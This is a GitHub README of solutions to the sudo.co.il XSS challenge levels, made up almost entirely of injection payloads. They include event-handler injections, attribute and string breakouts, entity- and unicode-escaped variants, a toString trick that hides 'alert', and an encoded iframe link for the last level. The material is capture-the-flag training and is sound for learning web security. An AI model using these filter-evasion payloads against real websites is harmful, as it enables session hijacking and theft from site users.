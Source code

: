 <p align="center">
  <img src="https://github.com/brono4/XSS-challenges/blob/main/XSS.jpg?raw=true" alt="XSS Challenge">
</p>



# 🚨 Solutions of XSS Challenges of http://sudo.co.il/xss/

---
## 🎯 Goal for CTFs:

**Our goal is to trigger a popup displaying  — all without requiring any user interaction! 🚫🖱️**


## ## 🔓 Challenge Solutions

- Level 0 🧪
```
<img src=1 onerror=alert(document.domain)>
```
- Level 1🧪
```
"><img src=1 onerror=alert(document.domain)>
```

- Level 2 🧪
```
" autofocus onfocus=alert(1) x="
```
- Level 3 🧪
```
"autofocus/onfocus="alert(document.domain)
```

- Level 4 🧪
```
"autofocus/onfocus="&#x61;lert&#x28;document.domain&#x29;
```

- Level 5.1 🧪
```
'-alert(document.domain);<!--
```
- Level 5.2 🧪
```
\'-alert(1);<!--
```
- Level 6 🧪
```
\'-alert(document.domain);//
```
- Level 7 🧪
```
" autofocus onfocus=alert(1) x="    #like 2
```
- Level 8 🧪
```
this[8680439..toString(30)](document.domain)
```
- Level 8.1 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 9 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 10 🧪
```
';this[8680439..toString(30)](document.domain);'
```

- Level 11 🧪
```
#<script>alert(document.domain)</script>
```
🧨 Level 12 — External Payload Injection

📎 Go to: http://untrusted.sudo.co.il/iframe.php?p=

Paste the following encoded payload:

%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

🔗 Final link:

http://untrusted.sudo.co.il/iframe.php?p=%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

---
### 👨‍💻 Author
💻 Made with ❤️ by Bruno.





